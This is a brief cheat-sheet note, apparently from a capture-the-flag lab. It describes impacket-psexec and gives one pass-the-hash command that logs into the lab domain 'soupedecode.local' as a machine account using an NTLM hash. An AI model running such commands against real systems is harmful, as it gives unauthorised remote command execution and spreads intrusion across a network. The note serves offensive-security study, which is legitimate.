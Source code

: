 # impacket-psexec

allows u to connect to an target system if credentials are given.

---


#### Active Directory

impacket-psexec 'soupedecode.local/FileServer$'@soupedecode.local -hashes :e41da7e79a4c76dbd9cf79d1cb325559
